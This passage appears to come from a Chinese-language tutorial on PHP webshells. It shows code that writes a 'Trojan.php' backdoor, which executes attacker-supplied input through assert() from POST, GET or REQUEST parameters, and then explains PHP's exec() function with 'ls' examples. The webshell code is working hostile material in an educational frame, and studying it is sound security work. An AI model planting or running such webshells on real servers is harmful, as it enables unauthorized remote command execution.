 ```php+HTML
//@call_user_func(assert,phpinfo());

//@call_user_func(assert,$_GET['cmd']);

//preg_replace_callback('/.+/i', create_function('$arr', 'return assert($arr[0]);'), $_REQUEST['cmd']);

$test='<?php $a=$_POST["cmd"];assert($a); ?>';
file_put_contents("Trojan.php", $test);
?>
```

上面这个 webshell 利用函数生成 `Trojan.php` 木马文件。
`file_put_contents` 函数：生成一个文件。第一个参数是文件名，第二个参数是文件的内容。

![image-20200911110201716](/images/webshell/image-20200911110201716.png)

![image-20200911110325971](/images/webshell/image-20200911110325971.png)

如上图所示：命令成功执行

##### exec

exec()功能是将命令作为参数，但不输出结果。如果指定了第二个可选参数，则返回结果为数组。否则，如果回显，只显示结果的最后一行。

```php+HTML
<?php
exec("ls")
//echo exec("ls");
?>
```

无法回显，使用`exec()`函数执行echo命令，只会输出最后一行命令结果。

```php+HTML
<?php
//exec("ls")
echo exec("ls");
?>
```

![image-20200911111810853](/images/webshell/image-20200911111810853.png)

如果指定了第二个参数，则返回结果为数组。

```php+HTML
<?php
//exec("ls")
exec("ls",$array);
print_r($array);
?>
```



![image-20200911111954897](/images/webshell/image-20200911111954897.png)
